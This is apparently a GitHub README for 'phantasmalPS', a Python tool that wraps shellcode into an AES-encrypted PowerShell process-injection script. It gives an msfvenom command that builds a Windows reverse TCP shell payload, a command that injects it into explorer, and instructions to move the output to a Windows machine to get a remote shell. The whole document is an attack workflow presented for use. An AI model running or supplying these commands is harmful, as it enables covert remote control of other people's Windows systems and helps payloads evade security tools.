

# phantasmalPS
This Python script generates a PowerShell Process Injection script with AES encrypted shellcode.

Install requirements:
```python
pip3 install -r requirements.txt
```

## Simple Usage:
```bash
python3 phantasmalPS.py -h
```


First generate a shellcode within your favorite C2 framework:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport 8443 -f ps1 -o shell
```
Let phantasmalPS do its magic:
```bash
python3 phantasmalPS.py -f shell -p explorer
```


It generates a PowerShell file called "simplescript.ps1" n the same directory you downloaded phantasmalPS.py:
```bash
ls -l simplescript.ps1
```


Now, transfer the PowerShell script to a Windows machine and get a shell back:


Thank you
